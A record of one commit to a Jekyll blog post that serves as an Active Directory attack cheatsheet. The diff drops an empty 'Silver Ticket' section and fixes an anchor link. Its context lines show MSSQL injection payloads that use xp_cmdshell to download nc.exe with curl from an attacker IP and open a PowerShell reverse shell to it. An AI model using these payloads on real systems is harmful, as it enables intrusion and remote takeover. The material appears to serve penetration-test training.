

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md, in a window 1280 px wide and 900 px high, scrolled down 1286 px. Shown: the whole window, without its empty margins (229-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2024-11-01-Attacking-Active-Directory-Cheatsheet.md

````diff
--- a/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
@@ -31,8 +31,7 @@
 - [Local Credential Dumping](#local-credential-dumping)
 - [MSSQL Basics](#mssql-basics)
 - [MSSQL Reverse Shell](#mssql-reverse-shell)
-- [Silver Ticket](#silver-ticket)
-- [ACLs Abuse Attacks](#acl-abuse-attacks)
+- [ACLs Abuse Attacks](#acls-abuse-attacks)
 
 ### Identifying the Domain Controller
 ```shell
@@ -693,10 +692,6 @@
 ' EXECUTE xp_cmdshell "curl http://192.168.45.200:8080/nc.exe -o C:\\Users\\Public\\nc.exe"; -- //
 ' EXECUTE xp_cmdshell "C:\\Users\\Public\\nc.exe -nv 192.168.45.200 443 -e powershell.exe"; -- //
 ```
-### Silver Ticket
-```shell
-Comming soon.
-```
 ### ACLs Abuse Attacks
 Note: We can enumerate ACLs using BloodHound too. But using PowerView.ps1 can give us some results that wouldn't show up on BloodHound otherwise.
 ```shell
````
